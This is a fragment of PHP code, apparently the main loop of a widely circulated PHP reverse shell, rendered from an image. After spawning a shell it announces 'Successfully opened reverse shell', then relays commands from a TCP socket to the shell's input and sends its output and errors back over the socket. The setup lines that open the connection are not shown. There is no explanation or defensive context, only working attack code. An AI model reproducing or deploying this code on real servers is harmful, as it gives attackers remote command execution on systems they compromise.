 ```php=

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
```